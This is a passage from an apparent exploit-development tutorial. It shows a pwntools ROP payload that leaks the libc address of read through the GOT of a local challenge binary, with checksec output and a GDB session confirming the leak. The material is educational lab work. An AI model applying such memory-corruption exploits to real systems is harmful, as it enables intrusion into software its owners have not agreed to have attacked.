 ```python
payload += p32(elf.got['read']) # Giving 2nd argument
payload += p32(0x8) # Giving 3rd argument
pause()    # Pause the process to attach it to GDB

p.sendline(payload) # Sending payload

read_leaked = u32(p.recv()[:4].strip().ljust(4, b"\x00")) # Recieving the 4 bytes and making it aligned
log.info("read@libc: "+hex(read_leaked)) # Logging

p.interactive() 
```

Let's run it and then attached to `gdb`:-

```r
d4mianwayne@oracle:~/Pwning/rop$ python3 chall.py 
[+] Starting local process './chall': pid 8064
[*] '/home/d4mianwayne/Pwning/rop/chall'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
[*] '/lib/i386-linux-gnu/libc-2.27.so'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[*] Paused (press any to continue)
```

Attaching it to `gdb` and continuing:-

```r
gef➤  c
Continuing.

Thread 1 "chall" received signal SIGSEGV, Segmentation fault.
[ Legend: Modified register | Code | Heap | Stack | String ]


-- snip --

gef➤  p read
$3 = {ssize_t (int, void *, size_t)} 0xf7e6fcb0 <__GI___libc_read>

```

Let's check our exploit:-

```r
    PIE:      PIE enabled
[*] Paused (press any to continue)
[*] read@libc: 0xf7e6fcb0
[*] Switching to interactive mode
```
